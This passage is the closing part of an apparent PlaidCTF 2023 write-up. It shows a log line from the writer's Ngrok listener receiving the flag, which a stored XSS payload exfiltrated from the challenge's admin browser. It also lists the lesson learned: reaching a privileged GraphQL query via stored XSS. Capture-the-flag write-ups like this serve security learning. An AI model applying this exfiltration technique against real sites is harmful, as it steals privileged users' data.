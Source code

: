 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415232747.png)

**And you see the following request in Ngrok:**
```
client_1    | 172.21.0.1 - - [15/Apr/2023:15:21:05 +0000] "GET /?d={%22data%22:{%22flag%22:%22PCTF{sorry_about_all_the_networking_problems..._f252ceec1321fd285398809b}}%22}} HTTP/1.1" 200 366 "http://5c6a8576-c1e8-45d6-96f4-690cdfa8afc0.dubs.putlocker.chal.pwni.ng:20004/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "44.201.232.122"
```

Bam! We got the flag!

- **Flag: `PCTF{sorry_about_all_the_networking_problems..._f252ceec1321fd285398809b}`**

### Conclusion

What we've learned:

1. Accessing High Privilege GraphQL Query Via Stored XSS
